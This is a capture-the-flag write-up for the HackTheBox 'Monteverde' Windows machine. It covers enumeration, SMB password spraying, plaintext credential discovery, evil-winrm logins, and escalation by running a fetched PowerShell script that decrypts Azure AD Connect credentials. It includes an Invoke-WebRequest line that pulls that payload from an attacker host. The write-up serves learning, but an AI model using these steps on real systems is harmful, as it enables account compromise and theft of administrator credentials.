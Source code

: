 # Monteverde's WriteUp
### Platform: HackTheBox | Difficulty: Medium | OS: Windows | IP: 10.10.10.172 

Monteverde is a medium Windows box which let you to learn something new about Azure AD. Getting user flag wasn’t a big deal to me, but the root was a pain in the neck.

I do nmap without any specific flag to scan all ports:

``` $ nmap -vvv -p- -oN pall.txt 10.10.10.172 ```

Then I cut those open ports and scan them with -sV -sC flags:

``` $ nmap -vvv -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49706,49774 -oN sCV-nmap.txt 10.10.10.172 ```
![01-svc-nmap](https://user-images.githubusercontent.com/62805453/85043467-ea680200-b17b-11ea-9a39-e70c65af50b3.png)

After scanning ports I use enum4linux to gather information as much as possible:
![02-enum4linux](https://user-images.githubusercontent.com/62805453/85043481-f05de300-b17b-11ea-9cdf-015330913a04.png)

The most valuable gathered information are usernames:

``` administrator, SABatchJobs, mhope, smorgan, dgalanos, guest, roleary, svc-ata, svc-bexec, svc-netapp ```

I decided to connect to the system via SMB by trying some username with most popular passwords, which was unsuccessful. Sometimes administrators use the same username and password,  so I put all usernames in a file and tried to check if any username:password are matched.

![03-msfconsole](https://user-images.githubusercontent.com/62805453/85043492-f358d380-b17b-11ea-9f8c-7c237635f537.png)

You can download the python tool from my github.

After finding the correct username and password I used smbclient and smbmap to find more information:

``` $ smbclient -U SABatchJobs -L //10.10.10.172 ```
![04-smbclient](https://user-images.githubusercontent.com/62805453/85043491-f358d380-b17b-11ea-8f46-174681ef0d31.png)

I checked all share folders one by one, and was able to find a valuable file in \\10.10.10.172\users$\mhope\ , so I downloaded it with get command:
![05-usersharename](https://user-images.githubusercontent.com/62805453/85043523-fb187800-b17b-11ea-8dd0-808d4441a85f.png)

I read the azure.xml file and found the password for user “mhope”:

``` $ cat azure.xml ```

One of the useful tools to log into a user account in windows systems is Evil-winrm, so I used it to access the mhope account. You can download Evil-winrm from the following address:
https://github.com/Hackplayers/evil-winrm

After I logged into the account I immediately grab the user flag:

``` $ ruby evil-winrm.rb -u mhope -p [password] -i 10.10.10.172 ```
![07-userflag](https://user-images.githubusercontent.com/62805453/85043529-fd7ad200-b17b-11ea-80fa-37ff36adde54.png)

Now it is time to escalate the privilege to root.

At first I download netcat from my Kali machine so that I have a more stable connection:
![08-nc64](https://user-images.githubusercontent.com/62805453/85044400-16d04e00-b17d-11ea-8287-9959d8fdfc0e.png)


First things that I do are knowing who I am in the system and look at directories and their subs for any valuable file.

``` Cmd> whoami /all ```
![09-whoami](https://user-images.githubusercontent.com/62805453/85044413-1cc62f00-b17d-11ea-8c91-12ccaf28f861.png)


``` ps> Get-childItem -Recurse . ```
![10-recurse](https://user-images.githubusercontent.com/62805453/85044422-20f24c80-b17d-11ea-8a82-f7bdeeecbc8a.png)


After looking at directories I found some files in “C:\users\mhope\.Azure” , which were rabbit holes and took lots of my time. But finally after surfing on the internet for Azure AD I found two pages which helped me to know Azure AD better and get a shell code to escalate the privilege.

https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/

https://blog.xpnsec.com/azuread-connect-for-redteam/

So I sent the shell code to the victim’s machine and ran it, but I got an error, then I searched for the error and found that there are something in line one and three that I should change! after playing with the code and surfing on the internet I faced this webpage:
https://docs.microsoft.com/en-us/sql/reporting-services/report-data/data-connections-data-sources-and-connection-strings-report-builder-and-ssrs?view=sql-server-ver15

First I removed “(@_xpn_) \n” from line one, and then changed the data source as the example of SQL server database on the local server:

``` $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(local);Initial Catalog=ADSync;” ```

But there was still something wrong and I wasn’t able to figure it out, that’s why I asked my friend to help me and he sent me this link:
https://stackoverflow.com/questions/25682703/connect-to-sql-server-database-from-powershell

By adding “integrated security=True” to the code, the problem should be solved:

``` $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(local);Initial Catalog=ADSync; Integrated Security=True" ```

So after I changed line three, I uploaded the code again to the victim’s machine and ran it, and finally I was able to run the code correctly and get the administrator’s password:

``` PS> Invoke-Webrequest -Uri “http://10.10.16.32:59800/azuread_decrypt_msol.ps1 -Outfile local.ps1 ```
![11-root-creds](https://user-images.githubusercontent.com/62805453/85044424-218ae300-b17d-11ea-8a87-446a326cb30f.png)


Now it is time to use Evil-winrm one more time to log into the system as Administrator and capture the root flag:

``` $ ruby evil-winrm.rb -u administrator -p '[password]' -i 10.10.10.172 ```
![12-root-flag](https://user-images.githubusercontent.com/62805453/85044427-2354a680-b17d-11ea-9560-c7a1541cbbef.png)


### THE END
